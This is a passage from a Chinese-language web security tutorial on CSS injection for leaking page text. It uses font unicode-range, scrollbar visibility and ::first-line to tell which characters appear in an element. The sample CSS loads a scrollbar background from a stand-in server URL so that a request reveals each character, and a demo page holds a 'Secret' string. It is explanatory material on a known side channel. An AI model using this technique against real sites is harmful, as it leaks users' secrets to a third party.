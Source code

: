 就會在畫面上看到差異：

![height](pics/18-02.png)

很明顯 A 比其他字元的高度都高，而且根據我們的 CSS 設定，如果內容高度超過容器高度，會出現 scrollbar。雖然上面是截圖看不出來，但是下面的 ABC 有出現 scrollbar，而上面的 DBC 沒有。

再者，我們其實可以幫 scrollbar 設定一個外部的背景：

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

也就是說，如果 scrollbar 有出現，我們的 server 就會收到 request。如果 scrollbar 沒出現，就不會收到 request。

更進一步來說，當我把 div 套用 `fa` 字體時，如果畫面上有 A，就會出現 scrollbar，server 就會收到 request。如果畫面上沒有 A，就什麼事情都不會發生。

因此，如果一直重複載入不同字體，那 server 就能知道畫面上有什麼字元，這點跟剛剛我們用 `unicode-range` 能做到的事情是一樣的。

那要怎麼解決順序的問題呢？

我們可以先把 div 的寬度縮減到只能顯示一個字元，這樣其他字元就會被放到第二行去，再搭配 [::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line) 這個 selector，就可以特別針對第一行做樣式的調整，像是這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
```